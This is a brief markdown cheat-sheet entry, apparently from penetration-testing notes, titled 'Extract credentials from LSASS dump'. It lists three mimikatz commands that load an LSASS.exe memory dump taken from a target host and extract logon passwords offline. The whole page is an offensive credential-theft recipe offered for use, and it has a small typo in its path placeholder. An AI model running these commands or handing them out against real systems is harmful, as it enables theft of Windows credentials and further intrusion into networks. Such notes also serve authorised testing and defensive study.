 # Extract credentials from LSASS dump

## Mimikatz

Following extracting a dump of LSASS.exe from the target host, use mimikatz to extract credentials offline.

```text
> mimikatz.exe #Open mimikatz
> sekurlsa::minidump {Path]\lsass.DMP #Set context to dump
> sekurlsa::logonpasswords #extract credentials
```

## 



